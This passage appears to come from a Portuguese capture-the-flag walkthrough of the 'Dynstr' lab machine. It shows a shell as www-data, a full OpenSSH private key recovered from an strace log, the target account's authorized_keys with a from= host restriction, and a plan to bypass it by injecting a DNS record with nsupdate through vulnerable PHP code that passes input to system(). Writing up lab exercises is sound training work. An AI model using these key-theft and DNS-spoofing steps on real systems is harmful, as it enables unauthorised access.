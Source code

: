   Após analisar estes arquivos, notei que no `strace-C62796521.txt` temos uma chave privada em texto plano, que foi extraída e salva como `id_rsa`.

  ```plaintext
  [...]
  15123 read(5, "-----BEGIN OPENSSH PRIVATE KEY-----\nb3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn\nNhAAAAAwEAAQAAAQEAxeKZHOy+RGhs+gnMEgsdQas7klAb37HhVANJgY7EoewTwmSCcsl1\n42kuvUhxLultlMRCj1pnZY/1sJqTywPGalR7VXo+2l0Dwx3zx7kQFiPeQJwiOM8u/g8lV3\nHjGnCvzI4UojALjCH3YPVuvuhF0yIPvJDessdot/D2VPJqS+TD/4NogynFeUrpIW5DSP+F\nL6oXil+sOM5ziRJQl/gKCWWDtUHHYwcsJpXotHxr5PibU8EgaKD6/heZXsD3Gn1VysNZdn\nUOLzjapbDdRHKRJDftvJ3ZXJYL5vtupoZuzTTD1VrOMng13Q5T90kndcpyhCQ50IW4XNbX\nCUjxJ+1jgwAAA8g3MHb+NzB2/gAAAAdzc2gtcnNhAAABAQDF4pkc7L5EaGz6CcwSCx1Bqz\nuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7a\nXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38P\nZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk\n+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs\n4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WODAAAAAwEAAQAAAQEAmg1KPaZgiUjybcVq\nxTE52YHAoqsSyBbm4Eye0OmgUp5C07cDhvEngZ7E8D6RPoAi+wm+93Ldw8dK8e2k2QtbUD\nPswCKnA8AdyaxruDRuPY422/2w9qD0aHzKCUV0E4VeltSVY54bn0BiIW1whda1ZSTDM31k\nobFz6J8CZidCcUmLuOmnNwZI4A0Va0g9kO54leWkhnbZGYshBhLx1LMixw5Oc3adx3Aj2l\nu291/oBdcnXeaqhiOo5sQ/4wM1h8NQliFRXraymkOV7qkNPPPMPknIAVMQ3KHCJBM0XqtS\nTbCX2irUtaW+Ca6ky54TIyaWNIwZNznoMeLpINn7nUXbgQAAAIB+QqeQO7A3KHtYtTtr6A\nTyk6sAVDCvrVoIhwdAHMXV6cB/Rxu7mPXs8mbCIyiLYveMD3KT7ccMVWnnzMmcpo2vceuE\nBNS+0zkLxL7+vWkdWp/A4EWQgI0gyVh5xWIS0ETBAhwz6RUW5cVkIq6huPqrLhSAkz+dMv\nC79o7j32R2KQAAAIEA8QK44BP50YoWVVmfjvDrdxIRqbnnSNFilg30KAd1iPSaEG/XQZyX\nWv//+lBBeJ9YHlHLczZgfxR6mp4us5BXBUo3Q7bv/djJhcsnWnQA9y9I3V9jyHniK4KvDt\nU96sHx5/UyZSKSPIZ8sjXtuPZUyppMJVynbN/qFWEDNAxholEAAACBANIxP6oCTAg2yYiZ\nb6Vity5Y2kSwcNgNV/E5bVE1i48E7vzYkW7iZ8/5Xm3xyykIQVkJMef6mveI972qx3z8m5\nrlfhko8zl6OtNtayoxUbQJvKKaTmLvfpho2PyE4E34BN+OBAIOvfRxnt2x2SjtW3ojCJoG\njGPLYph+aOFCJ3+TAAAADWJpbmRtZ3JAbm9tZW4BAgMEBQ==\n-----END OPENSSH PRIVATE KEY-----\n", 4096) = 1823
  [...]
  ```

  Quando tentei utilizar esta chave para conectar via SSH com a conta `bindmgr`, recebi um erro. Ao revisar o conteúdo do arquivo `authorized_keys`, notei que temos uma instrução `from` definida, que limita a conexão utilizando a referida chave RSA a um determinado escopo de sistemas, neste caso máquinas com no subdomínio `*.infra.dyna.htb`.

  ```bash
  www-data@dynstr:/tmp$ cat /home/bindmgr/.ssh/authorized_keys
  from="*.infra.dyna.htb" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDF4pkc7L5EaGz6CcwSCx1BqzuSUBvfseFUA0mBjsSh7BPCZIJyyXXjaS69SHEu6W2UxEKPWmdlj/WwmpPLA8ZqVHtVej7aXQPDHfPHuRAWI95AnCI4zy7+DyVXceMacK/MjhSiMAuMIfdg9W6+6EXTIg+8kN6yx2i38PZU8mpL5MP/g2iDKcV5SukhbkNI/4UvqheKX6w4znOJElCX+AoJZYO1QcdjBywmlei0fGvk+JtTwSBooPr+F5lewPcafVXKw1l2dQ4vONqlsN1EcpEkN+28ndlclgvm+26mhm7NNMPVWs4yeDXdDlP3SSd1ynKEJDnQhbhc1tcJSPEn7WOD bindmgr@nomen
  ```

  Para contornar este ponto, poderíamos alterar o arquivo hosts da máquina, o que não é possível dado privilégios atuais, ou utilizar o `nsupdate` para incluir a entrada desejada no servidor DNS, na zona `infra.dyna.htb`, o que foi tentado a partir do comando que é utilizado pela API, conforme abaixo:

  ```php
  // Update DNS entry
  $cmd = sprintf("server 127.0.0.1\nzone %s\nupdate delete %s.%s\nupdate add %s.%s 30 IN A %s\nsend\n",$d,$h,$d,$h,$d,$myip);
  system('echo "'.$cmd.'" | /usr/bin/nsupdate -t 1 -k /etc/bind/ddns.key',$retval);
  ```

  Com base nisso, utilizei o seguinte comando para adicionar a nossa entrada no referido subdomínio, porém a ação foi recusada.
